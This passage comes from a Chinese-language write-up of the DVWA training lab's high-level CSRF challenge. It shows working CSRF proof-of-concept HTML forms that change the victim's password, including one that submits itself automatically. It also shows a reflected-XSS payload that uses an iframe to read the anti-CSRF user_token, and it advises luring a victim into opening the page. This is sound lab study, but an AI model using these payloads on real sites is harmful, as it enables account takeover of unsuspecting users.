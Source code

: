 ```html
            }
        }
    </script>

    <!-- 
        GET /DVWA/vulnerabilities/csrf/index.php?
        password_new=dddz
        &password_conf=dddz
        &Change=Change
        &user_token=263e711deb360ae4e54c8fce3b6356bb 
        HTTP/1.1 
    -->
    <form action="http://localhost/DVWA/vulnerabilities/csrf/index.php">
        <input type="hidden" name="password_new" value="20250114."/>
        <input type="hidden" name="password_conf" value="20250114."/>
        <input type="hidden" name="Change" value="Change"/>
        <input type="hidden" name="user_token" value=""/>
        <input type="submit" value="Read Token Then CSRF Attack" onclick="readTokenFromIframe()"/>
    </form>
</body>
</html>
```

假设攻击代码 CSRF Payload 位于名为 A 的服务器端，而站点在名为 B 的服务器端，即两者的域名不同，因为跨域限制，域名 A 下的所有页面均不允许主动获取域名 B 下的页面内容，除非域名 B 下的页面主动发送信息给域名 A 下的页面，即域名 B 页面主动通过链接访问名 A 页面！

综上所述，上述 CSRF Payload 执行成功的前提是：

1. 将上述 CSRF Payload 代码注入到站点的页面中，这需要结合 XSS 漏洞
2. 将上述包含 CSRF Payload 的 HTML 文件放置到目标主机的服务器中，然后诱导受害者访问，进而完成 CSRF 攻击！（已尝试，可成功修改密码）



#### 解题思路二

想办法获取站点 http://localhost/DVWA 的 token 值，我已经用 BurpSuite 实验过了，这个 token  值不一定非要是来自于`.../csrf/index.php`页面，可以是这个站点任何页面返回的 token 值（而且一定是没有使用过的哟）！

所以说问题来了，怎么获取呢？答：利用 XSS 漏洞！

利用的是关卡 **XSS（Reflected）** 中的漏洞，XSS Payload 如下所示，访问该链接后页面将会弹出 `user_token` 值：

```
http://localhost/DVWA/vulnerabilities/xss_r/?name=<iframe src="../csrf/" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>
```

然后将获取到的 `user_token` 放到下面这个包含 CSRF Payload 的 HTML 文件中，最后将该文件的链接发给受害者，诱导其点击，进而完成一次 CSRF 攻击！

```html
<!-- high_2.html -->
<!DOCTYPE html>
<html>
<head>
    <title>High CSRF PoC</title>
</head>
<body>
    <h1>High CSRF PoC</h1>
    <form id="csrfForm" action="http://localhost/DVWA/vulnerabilities/csrf/" method="GET">
        <input type="hidden" name="password_new" value="demodemodemo">
        <input type="hidden" name="password_conf" value="demodemodemo">
        <input type="hidden" name="user_token" value="e394b8c1b40ed9d5c0e0cff6c1a0f82a">
        <input type="hidden" name="Change" value="Change">
    </form>
    <script>
        // 自动提交表单
        document.getElementById('csrfForm').submit();
    </script>
</body>
```